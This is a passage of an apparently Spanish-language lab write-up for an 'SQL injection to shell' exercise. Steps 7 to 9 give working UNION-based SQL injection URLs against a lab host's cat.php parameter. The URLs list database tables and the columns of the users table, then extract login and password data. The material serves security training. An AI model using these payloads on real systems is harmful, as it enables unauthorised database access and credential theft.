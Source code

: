 7. Tablas de photoblog

      - http://172.16.113.157/cat.php?id=2+UNION+SELECT+NULL%2Ctable_name%2CNULL%2CNULL+FROM+information_schema.tables+WHERE+table_schema%3D%27photoblog%27

        ![tablas](https://github.com/Nyanyi/Awae/blob/main/exercices/sqli_to_shell/images/tablas.png)

8. Columnas

      - http://172.16.113.157/cat.php?id=2+UNION+SELECT+NULL%2Cconcat_ws(%27+:+%27+%2Ctable_name%2Ccolumn_name)%2CNULL%2CNULL+FROM+information_schema.columns+WHERE+table_schema%3D%27photoblog%27+AND+table_name%3D%27users%27

      ![columnas](https://github.com/Nyanyi/Awae/blob/main/exercices/sqli_to_shell/images/columnas.png)

9. Datos de user:password

      - http://172.16.113.157/cat.php?id=2+UNION+SELECT+NULL%2Cconcat_ws(%27+:+%27+%2Cid%2Clogin%2Cpassword)%2CNULL%2CNULL+FROM+photoblog.users

      ![admin](https://github.com/Nyanyi/Awae/blob/main/exercices/sqli_to_shell/images/admin.png)
